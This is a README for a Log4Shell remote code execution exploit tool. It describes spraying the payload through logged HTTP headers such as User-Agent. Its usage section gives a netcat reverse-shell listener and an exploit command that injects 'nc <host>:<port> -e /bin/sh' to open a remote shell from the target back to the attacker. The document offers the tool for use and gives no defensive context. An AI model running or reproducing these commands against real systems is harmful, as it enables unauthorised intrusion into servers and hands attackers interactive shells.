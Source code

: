 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
#reverse shell receiver
```
nc -lvp <port>
```

#exploit execution
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip>:<port> -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
